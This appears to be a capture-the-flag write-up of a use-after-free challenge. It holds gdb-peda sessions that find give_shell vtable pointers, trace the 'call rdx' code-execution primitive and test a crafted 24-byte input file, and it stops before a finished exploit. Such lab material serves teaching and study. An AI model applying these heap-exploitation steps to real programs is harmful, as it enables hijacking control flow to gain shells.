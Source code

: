 # Locate give_shell pointer(s)

```sh
gdb-peda$ info function give_shell
0x000000000040117a  Human::give_shell()
gdb-peda$ find 0x000000000040117a
Found 6 results, display max 6 items:
uaf : 0x401550 --> 0x40117a (<_ZN5Human10give_shellEv>:	push   rbp)
uaf : 0x401570 --> 0x40117a (<_ZN5Human10give_shellEv>:	push   rbp)
uaf : 0x401590 --> 0x40117a (<_ZN5Human10give_shellEv>:	push   rbp)
uaf : 0x601550 --> 0x40117a (<_ZN5Human10give_shellEv>:	push   rbp)
uaf : 0x601570 --> 0x40117a (<_ZN5Human10give_shellEv>:	push   rbp)
uaf : 0x601590 --> 0x40117a (<_ZN5Human10give_shellEv>:	push   rbp)
```

# Step through until code exec primitive. Always stops at 0x400fd8

```sh
gdb-peda$ break *0x400fcd
   0x400fcd <main+265>:	mov    rax,QWORD PTR [rbp-0x38]
   0x400fd1 <main+269>:	mov    rax,QWORD PTR [rax]
   0x400fd4 <main+272>:	add    rax,0x8
=> 0x400fd8 <main+276>:	mov    rdx,QWORD PTR [rax]
   0x400fdb <main+279>:	mov    rax,QWORD PTR [rbp-0x38]
   0x400fdf <main+283>:	mov    rdi,rax
   0x400fe2 <main+286>:	call   rdx

Stopped reason: SIGSEGV
```

# Check arguments to uaf. First argv[1] is length. Second argv[2] is a file.

```c
len = atoi(argv[1]);
data = new char[len];
read(open(argv[2], O_RDONLY), data, len);
```

# Test with 24 bytes

```sh
root@kali:~/CTF/UAF# python -c 'print "\xCC"*24' > buffer.txt
root@kali:~/CTF/UAF# gdb --args uaf 24 buffer.txt
gdb-peda$ break *main+276
gdb-peda$ run
1. use
2. after
3. free
3
1. use
2. after
3. free
2
1. use
2. after
3. free
1

RAX: 0x8 
RBX: 0x614ca0 --> 0xcccccccccccccccc
```